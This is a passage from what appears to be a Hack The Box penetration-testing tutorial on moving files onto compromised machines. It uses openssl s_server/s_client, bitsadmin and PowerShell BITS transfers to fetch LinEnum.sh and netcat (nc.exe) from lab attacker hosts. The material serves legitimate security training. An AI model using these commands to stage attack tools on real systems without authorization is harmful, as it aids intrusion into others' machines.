 We need to create a certificate and start a server in our Pwnbox.

#### Create Certificate in our Pwnbox

  Create Certificate in our Pwnbox

```shell-session
gdxqpardo@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

#### Stand up the Server in our Pwnbox

  Stand up the Server in our Pwnbox

```shell-session
gdxqpardo@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Next, with the server running, we need to download the file from the compromised machine.

#### Download File from the Compromised Machine

  Download File from the Compromised Machine

```shell-session
gdxqpardo@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```



#### Other Common Living off the Land Tools

**BitsAdmin Download Function**
The [background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal)
cna be used to download files from http sites and SMB shares. it 'intelligently' checks host and network utilization into account to minimize the impact on a users foreground work

#### File Download with Bitsadmin

  File Download with Bitsadmin

```powershell-session
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

#### Download

  Download

```powershell-session
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```
